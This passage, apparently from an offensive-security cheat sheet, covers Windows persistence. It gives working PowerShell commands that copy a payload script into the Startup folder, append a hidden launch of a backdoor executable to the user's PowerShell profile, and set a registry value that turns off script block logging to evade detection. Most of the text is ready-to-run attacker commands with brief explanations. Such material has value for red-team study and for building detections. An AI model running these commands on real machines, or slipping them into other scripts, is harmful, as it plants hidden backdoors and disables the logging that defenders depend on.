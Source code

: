 #### Additional Considerations
- Script Persistence: You can place PowerShell or batch scripts in the startup folder as well, which will execute automatically during startup. Example:
	```powershell
	Copy-Item "C:\path\to\payload.ps1" "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\malicious_script.ps1"
	```

# PowerShell Profile
PowerShell profiles are scripts that are executed automatically whenever a new PowerShell session starts. These can be exploited to establish persistence by modifying them to execute arbitrary code. There are four types of profiles, but the most commonly used for persistence are the user-specific and system-wide profiles:

- User Profile: `$PROFILE` (This is user-specific and located at `C:\Users\<Username>\Documents\WindowsPowerShell\profile.ps1`)
- System-Wide Profile: `"C:\Windows\System32\WindowsPowerShell\v1.0\profile.ps1"` (This applies to all users on the system)

#### View User-Specific PowerShell Profile
This command shows the content of the current user's PowerShell profile, typically located in `C:\Users\<Username>\Documents\WindowsPowerShell\profile.ps1`.
```powershell
Get-Content -Path "$PROFILE"
```

#### Create a New User-Specific PowerShell Profile
If the PowerShell profile does not exist, you can create one. This creates a new profile for the current user if it doesn’t already exist. The `-Force` flag ensures the file is created even if directories in the path don’t exist.
```powershell
New-Item -Path "$PROFILE" -Force
```

#### Modify User-Specific PowerShell Profile for Persistence
This adds a command to the user's profile to run an executable or script whenever a PowerShell session starts. 
```powershell
Add-Content -Path "$PROFILE" -Value "Start-Process 'C:\Backdoor\backdoor.exe' -WindowStyle Hidden"
```
The `Start-Process` cmdlet runs the backdoor executable in the background, minimizing its visibility.

#### Disable PowerShell Script Block Logging (Evasion)
To evade detection, attackers may disable PowerShell script block logging, which records details of PowerShell commands and scripts. Disabling it through the registry helps avoid being logged.
```powershell
Set-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Name "EnableScriptBlockLogging" -Value 0
```

